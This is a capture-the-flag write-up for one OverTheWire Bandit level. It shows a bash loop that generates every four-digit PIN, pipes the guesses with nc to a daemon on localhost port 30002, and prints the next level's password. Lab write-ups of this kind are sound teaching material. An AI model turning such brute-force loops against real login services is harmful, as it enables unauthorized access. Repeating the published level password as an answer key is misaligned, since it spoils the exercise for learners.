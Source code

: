 Level_24_to_Level_25

--------------------------------------



Level Goal
A daemon is listening on port 30002 and will give you the password for
bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode.
There is no way to retrieve the pincode except by going through all of the 10000
combinations, called brute-forcing.


-------
steps: 

```Bash
for a in {0000..9999}; do  echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $a ; done
```

we write that code in pincode.sh and give it the correct rights (chmod +x)


```Bash

./pincode.sh > combinations.txt 

nc localhost 30002 < combinations.txt

```

```Bash
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
```

```Bash
cat .pin
9458
```


-------


----------

password: p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

----------

--------------------------------------

